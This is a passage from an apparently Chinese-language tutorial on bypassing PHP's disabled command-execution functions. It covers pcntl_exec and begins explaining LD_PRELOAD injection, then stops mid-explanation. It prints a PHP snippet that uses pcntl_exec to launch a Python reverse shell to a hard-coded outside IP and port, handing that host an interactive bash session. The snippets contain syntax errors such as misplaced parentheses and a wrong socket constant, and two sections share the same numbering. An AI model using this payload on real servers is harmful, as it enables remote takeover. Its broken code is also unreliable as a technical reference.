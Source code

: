 # 0x03 利用pcntl_exec

## 前提条件：

**PHP安装并且期用了pcntl插件**

 pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数

 pcntl_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序

利用pcntl_exec()执行test.sh：

```php
<?php 
    if(function_exists('pcntl_exec')){
        pcntl_exec("/bin/bash",array("/tmp/test.sh");)
    }else{
        echo 'pcntl extension is not support!';
    }
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell：

```php
<?php
    pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os);
               s=socket.socket(socket.AF_INET,socket.STREAM,socket.SOL_TCP);
               s.connect(("132.232.75.90",9898));
               os.dup2(s.fileno(),0);
               os.dup2(s.fileno(),1);
               os.dup2(s.fileno(),2);
               p=subprocess.call(["/bin/bash","-i"]);'));
```

# 0x03 利用LD_PRELOAD环境变量

## 使用条件

```php
1.Linux系统且能上传自己的.so文件
2.能够控制LD_PRELOAD环境变量的值，比如putenv()函数
3.因为新进程的启动将加载LD_PRELOAD中的.so文件，所以要存在可以控制PHP启动外部程序的函数并能够执行，比如mail()、imap_mail()、mb_send_mail()和error_log()函数等
```

## 原理简述

 LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。
